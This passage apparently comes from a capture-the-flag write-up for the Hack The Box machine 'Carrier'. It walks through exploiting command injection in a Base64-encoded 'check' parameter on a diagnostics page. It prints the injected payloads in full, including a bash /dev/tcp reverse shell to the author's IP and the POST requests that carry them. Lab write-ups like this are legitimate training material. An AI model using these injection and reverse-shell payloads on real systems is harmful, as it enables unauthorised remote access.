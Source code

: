 ![Lyghtspeed tickets](https://kyuu-ji.github.io/htb-write-up/carrier/carrier_web-4.png)

- Networks:
  - 10.120.15.0/24
  - 10.120.16.0/24
  - 10.120.17.0/24
- FTP service on the 10.120.15.0/24 network, which could be the FTP service from the initial Nmap scan
- BGP: **Border Gateway Protocol** to exchange routing and reachability information among autonomous systems (AS) on the Internet

The _diagnostics menu_ has a _"Verify Status"_ button that shows some process information:

![Lyghtspeed diagnostics](https://kyuu-ji.github.io/htb-write-up/carrier/carrier_web-5.png)

After sending this to a proxy tool like **Burpsuite** and analyze it, it requests the data _"check=cXVhZ2dh"_ which Base64-decoded translates to _"quagga"_:
```markdown
echo 'cXVhZ2dh' | base64 -d
```

The software [Quagga](https://www.quagga.net/) is an Open-Source routing software that supports various routing protocols including **BGP**.
As the screenshot shows, this feature seems to filter for the word _"quagga"_ so when Base64-encoding the string _"root"_ and sending the request, it filters for that:
```markdown
POST /diag.php HTTP/1.1
(...)
check=cm9vdA==
```

This shows all processes that contain the word _root_ which means that in the background it runs `grep`.
Adding another command to the request by using a semicolon:
```markdown
echo 'root; echo "Test"' | base64
```
```markdown
POST /diag.php HTTP/1.1
(...)
check=cm9vdDsgZWNobyAiVGVzdCIK
```

The response also displays _"Test"_ and proofs command execution, so lets start a reverse shell connection:
```markdown
echo 'root; bash -i >& /dev/tcp/10.10.14.17/9001 0>&1' | base64
```
```markdown
POST /diag.php HTTP/1.1
(...)
check=cm9vdDsgYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy85MDAxIDA+JjEK
```

After URL-decoding the Base64-string and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _root_.
This is not the target machine yet as the `hostname` is _r1_ and `ifconfig` shows the following IP addresses:
- eth0: 10.99.64.2
- eth1: 10.78.10.1
- eth2: 10.78.11.1
